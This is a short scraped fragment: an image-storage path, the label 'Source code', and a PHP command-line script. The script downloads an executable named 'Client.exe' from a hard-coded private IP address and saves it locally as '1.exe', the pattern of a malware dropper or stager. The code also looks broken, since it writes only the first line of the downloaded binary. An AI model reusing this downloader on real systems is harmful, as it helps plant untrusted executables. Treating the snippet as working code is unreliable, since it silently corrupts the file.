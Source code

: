 	#!/usr/bin/php 
	<?php $data = @file("http://192.168.1.192/Client.exe");
	$lf = "1.exe";         
	$fh = fopen($lf, 'w');         
	fwrite($fh, $data[0]);         
	fclose($fh); 
	?>